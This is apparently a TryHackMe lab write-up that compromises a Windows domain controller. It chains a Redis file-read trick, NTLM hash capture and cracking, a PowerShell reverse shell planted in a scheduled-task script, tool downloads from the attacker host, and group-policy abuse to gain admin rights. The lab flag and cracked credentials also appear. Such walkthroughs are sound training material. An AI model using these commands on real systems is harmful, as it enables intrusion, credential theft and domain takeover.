


---
---

# THM - VulnNet

NMAP


- Run enum4linux:

```bash
enum4linux 10.10.147.23

```


- Tried different SMB clients to connect - found nothing
- Tried using dig - Found nothing
- Tried RPC:



- NMAP was taking too long with -p-
- Ran rustscan instead which is FAST

```bash
rustscan -a 10.10.147.23 --ulimit 5000 -- -A

```


- Found more open ports to enumerate


- Connect to Redis server:

```bash
redis-cli -h 10.10.21.182

```


```bash
> info
```


```bash
> config get *
```


- Found a user **enterprise-security**

- **This is an old version of Redis**

Which means we can do the LUA sandbox bypass


[https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html)

- As per the link, we can use the EVAL dofile() function to leak info
ie. EVAL "dofile('C:/Windows/System32/drivers/etc/Hosts')" 0


- We can see from this that we aren't a priviledged user but the enterprise-security user does exist


- Since the user.txt flag is on the Desktop:

```bash
EVAL "dofile('C:/Users/enterprise-security/Desktop/user.txt')" 0

```


- user.txt received as error:
**3eb176aee96432d5b100bc93580b291e**

- Since we have access to browse essentially and SMB is open
- We can set up Responder and catch a NTLM hash:

```bash
sudo responder -I tun0

```
- On the redis-cli:

```bash
EVAL "dofile('//10.8.24.66/dsfsdf')" 0  #IP of my Kali tun0
```


- Copy entire hash string (from enterprise-security to the end) put into hashes.txt

- Crack with hashcat:

```bash
hashcat -m 5600 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

```


- Got credentials: **enterprise-security : sand_0873959498**

- Test with msfconsole:


- Tried evil-winrm, all impacket modules ie. psexec, etc - Didn't work

- Run enum4linux with the credentials:

```bash
enum4linux -u enterprise-security -p sand_0873959498 -a 10.10.57.63

```





- Got some more info:

- Based on info - this is the **DC**
- Domain: **VULNNET**
- Share: **//10.10.57.63/Enterprise-Share**
- Domain users:
**tony-skid**

**krbtgt**

**jack-goldenhand**

**enterprise-security**

**Administrator**

**Guest**

- Connect to share:

```bash
smbclient //10.10.57.63/Enterprise-Share -U vulnnet/enterprise-security%sand_0873959498

```


- Looking at the script - it could be part of a scheduled task:


- Get the script onto Kali with:  

```bash
get PurgeIrrelevantData_1826.ps1

```
- Edit it with the following:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.8.24.66",4445);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 

```
- Couldn't remove or edit the original but I could overwrite it with put


```bash
put PurgeIrrelevantData_1826.ps1

```
- Set up nc -lnvp 4445

- Wait for the scheduled task to run:


- Upload Files (PowerView):

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/PowerView.ps1', 'C:\Users\enterprise-security\Downloads\PowerView.ps1')
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/Rubeus.exe', 'C:\Users\enterprise-security\Downloads\Rubeus.exe')
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/SharpHound.exe', 'C:\Users\enterprise-security\Downloads\SharpHound.exe')
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/mimikatz.exe', 'C:\Users\enterprise-security\Downloads\mimikatz.exe')
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/SharpGPOAbuse.exe', 'C:\Users\enterprise-security\Downloads\SharpGPOAbuse.exe')

```
- Run with:

```powershell
. .\PowerView.ps1
Get-NetDomainController

```


- Set up neo4j and bloodhound on Kali

- Run sharphound:

```bash
.\SharpHound.exe --CollectionMethods All --Domain vulnnet.local --ZipFileName loot.zip

```
or run with:

```powershell
powershell -ep bypass

. .\sharphound.ps1

Invoke-Bloodhound --CollectionMethods All --Domain vulnnet.local --ZipFileName loot.zip

```
- Copy loot file to SMB share:

```bash
cp 20231019030138_loot.zip C:\Enterprise-Share

```
- Get from SMB


- Open Bloodhound and drag and drop the loot file in

- Clicked on "Find Shortest Paths to Domain Admins"


- User has GenericWrite to Security-pol-vn GPO


- The GPO is being applied to the whole vulnnet domain  


- In order to leverage this vulnerability we have to use SharpGPOAbuse
<https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master>


- Copy SharpGPOAbuse.exe to the Windows victim machine and run:

```bash
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"

```


```bash
gpupdate /force

```
- Check localgroup:

```bash
net localgroup administrators

```


- Now that we have admin privileges - Connect to the C\$ share:

```bash
smbclient //10.10.53.145/c$ -U vulnnet/enterprise-security%sand_0873959498

```


And we get the flag.